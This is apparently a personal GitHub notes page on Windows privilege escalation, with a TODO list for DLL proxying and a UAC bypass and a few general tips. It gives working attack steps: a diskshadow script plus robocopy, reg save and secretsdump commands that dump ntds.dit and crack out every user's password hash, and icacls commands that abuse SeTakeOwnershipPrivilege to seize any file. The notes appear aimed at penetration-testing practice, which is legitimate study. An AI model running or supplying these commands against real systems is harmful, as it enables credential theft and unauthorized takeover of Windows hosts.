 ### TODO:
1. To make a DLL proxying tool, which generates proxied DLL to the specified DLL
2. Learn how to manipulate process memory using windows API and try to implement https://github.com/AlienX2001/PSBits/tree/master/EnableAllParentPrivileges
3. Implementing https://daniels-it-blog.blogspot.com/2020/07/uac-bypass-via-dll-hijacking-and-mock.html?m=1

## usually you just find services worth exploiting and then exploit them do priv esc but for a reference and as a compilation of my past experiences here is the notes
- first enumerate and gather all info
- using winpeas look for files/folders owned by system and we also have perms to read/write or execute refer to winpeas docs for the full form of codes displayed by winpeas over files/folders
- we can leverage services which create proccess with system privs and hence get a system shell

## If we need to enable all privs listed in a cmd shell session then we can follow these tweets and repos
https://twitter.com/0gtweet/status/1479813175046516738?t=x-BDnA-QT9hQ2eIbEw4P8g&s=19 and https://github.com/gtworek/PSBits/tree/master/EnableAllParentPrivileges

## escalation through certain privs
### SeBackupPrivilege and SeRestorePrivilege
If we have these 2 privs then what we can do is, we can create a backup of the C drive into some other drive of our choice(E drive here), this will also result in forming the backup of the C:\windows\ntds which we can use along with the master key extracted from system registry hive to decrypt the ntds file to get hashes of all users on that machine.
This can be done by 1st copying this into a txt file
```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
and then using diskshadow to create a shadow copy(backup) of ther C drive via `diskshadow /s FILENAME.txt` FILENAME being the filename of the above txt file. Now our shadow copy is ready. Now we will use robocopy to copy the ntds from the E drive to our working directory via `robocopy /b E:\Windows\ntds . ntds.dit`. Now we have a copy of ntds, and are in need of the master key which needs the system registery hive, which can by saved via `reg save hklm\system "FULL PATH\system"` now we will transfer the ntds.dit file and system save file to our kali machine and use secretsdump's LOCAL mode to decrypt the ntds via `secretsdump.py LOCAL -ntds "PATH TO NTDS FILE" -system "PATH TO SYSTEM FILE"`

### SeTakeOwnershipPrivilege
Using this priv, we can simply take ownership of any file we want access to, and by taking ownership, we have full control over the object. We can take ownership of any object using icacls via 1st `icacls "FILENAME" /setowner "USERNAME"` and then `icacls "FILE NAME" /grant "USERNAME":F`

